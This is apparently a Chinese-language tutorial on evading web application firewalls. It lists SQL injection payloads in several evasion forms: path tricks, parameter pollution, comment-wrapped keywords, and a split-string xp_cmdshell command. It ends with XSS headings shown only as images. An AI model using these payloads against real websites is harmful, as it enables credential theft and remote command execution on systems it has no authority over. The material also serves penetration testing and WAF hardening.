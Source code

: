 WAF身份认证阶段的绕过

WAF有一个白名单，在白名单内的客户请求将不做检测

0x01 伪造搜索引擎

早些版本的安全狗是有这个漏洞的，就是把User-Agent修改为搜索引擎，便可以绕过，进行sql注入等攻击，这里推荐一个谷歌插件，可以修改User-Agent，叫User-Agent Switcher

0x02 伪造白名单特殊目录

360webscan脚本存在这个问题，就是判断是否为admin dede install等目录，如果是则不做拦截,比如GET /pen/news.php?id=1 union select user,password from mysql.user可以改为GET /pen/news.php/admin?id=1 union select user,password from mysql.user或者GET /pen/admin/..\\news.php?id=1 union select user,password from mysql.user

0x03 直接攻击源站

这个方法可以用于安全宝、加速乐等云WAF，云WAF的原理通过DNS解析到云WAF，访问网站的流量要经过指定的DNS服务器解析，然后进入WAF节点进行过滤，最后访问原始服务器，如果我们能通过一些手段（比如c段、社工）找到原始的服务器地址，便可以绕过。

WAF数据包解析阶段的绕过

0x01 编码绕过最常见的方法之一，可以进行urlencode。

0x02 修改请求方式绕过大家都知道cookie中转注入，最典型的修改请求方式绕过，很多的asp，aspx网站都存在这个问题，有时候WAF对GET进行了过滤，但是Cookie甚至POST参数却没有检测。还有就是参数污染，典型例子就是multipart请求绕过，在POST请求中添加一个上传文件，绕过了绝大多数WAF。

0x03 复参数绕过例如一个请求是这样的GET /pen/news.PHP?id=1 union select user,password from MySQL.user可以修改为GET /pen/news.php?id=1&id=union&id=select&id=user,password&id=from%20mysql.user很多WAF都可以这样绕

WAF触发规则的绕过

WAF在这里主要是针对一些特殊的关键词或者用法进行检测。绕过方法很多，也是最有效的。

0x01 特殊字符替换空格用一些特殊字符代替空格，比如在mysql中%0a是换行，可以代替空格，这个方法也可以部分绕过最新版本的安全狗，在sqlserver中可以用/\*\*/代替空格

0x02 特殊字符拼接把特殊字符拼接起来绕过WAF的检测，比如在Mysql中，可以利用注释/\*\*/来绕过，在mssql中，函数里面可以用+来拼接,例如GET /pen/news.php?id=1;exec(master..xp\_cmdshell 'net user')可以改为GET /pen/news.php?id=1; exec('maste'+'r..xp'+'\_cmdshell'+'"net user"')

0x03 注释包含关键字在mysql中，可以利用/!/包含关键词进行绕过，在mysql中这个不是注释，而是取消注释的内容。例如,GET /pen/news.php?id=1 union select user,password from mysql.user可以改为GET /pen/news.php?id=1 /!union/ /!select/ user,password /!from/ mysql.user

XSS绕过WAF方法总结

1、script标签

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibCkaf71Z4XgBbS68jGBd2h3jTGEvurTyAicWvClZZI6PsYQ7nqooAWuw%2F640%3Fwx_fmt%3Dpng)

1.2 JavaScript 事件

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibm98xxxVAFpdS0MfdxJtnXBzLjH9dqjnCw3maPuAEYzRsPpAXpJCFicg%2F640%3Fwx_fmt%3Dpng)

1.3 行内样式(Inlinestyle)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibu7kXWic6rEhia5fGIEa3BKVmCkZ6icNS9xftEXEX7Ev3Q0iah7lOqkh4Ow%2F640%3Fwx_fmt%3Dpng)

1.4 CSS import

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibyIGibh4vIyKb5EqDVhYSke2vRaahATzHhbYl033eyuekSKedianCeGrg%2F640%3Fwx_fmt%3Dpng)
